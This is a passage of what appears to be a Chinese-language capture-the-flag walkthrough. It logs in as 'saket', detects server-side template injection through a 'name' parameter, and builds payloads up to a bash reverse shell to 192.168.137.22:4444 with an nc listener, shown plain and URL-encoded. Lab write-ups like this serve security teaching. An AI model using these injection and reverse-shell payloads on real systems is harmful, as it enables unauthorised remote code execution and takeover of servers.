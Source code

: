 ![image-20211230143542613](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211230143542613.png)

结果显示报错

尝试使用saket作为用户名 密码不变

![image-20211230143658858](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211230143658858.png)

登陆成功！页面提示需要知道我的名字 那么如何才能让他知道我的名字呢？ 尝试name参数提交名字！！！

![image-20211230143925201](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211230143925201.png)

尝试几次后，发现其格式为“Hello 输入内容”，怀疑是否可能是模版注入呢？

### 5.SSTI模板注入

构造payload做测试

```
{{1+abcxyz}}${1+abcxyz}<%1+abcxyz%>[abcxyz]       #abcxyz处意为 无规则的、不应被开发者提前定义的函数名
```

![image-20211230175025746](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211230175025746.png)

因不能运行解析abcxyz，页面返回了报错信息，可知其为python3.8的语言环境

再次构造payload测试是否可以执行

```
${7*7}{{7*7}}
```

![image-20211230175324680](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211230175324680.png)

页面返回了执行{{}}内的语句信息

构造攻击反弹shell的payload:

kali：

```
nc -nvlp 4444
```

```
{% import os %}{{os.system('bash -c "bash -i >& /dev/tcp/192.168.137.22/4444 0>&1"')}}
```

![image-20211230180135061](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211230180135061.png)



结果显示报错，并没有反弹shell

尝试将其进行URL编码再执行

```
%7B%25%20import%20os%20%25%7D%7B%7Bos.system('bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.137.22%2F4444%200%3E%261%22')%7D%7D
```
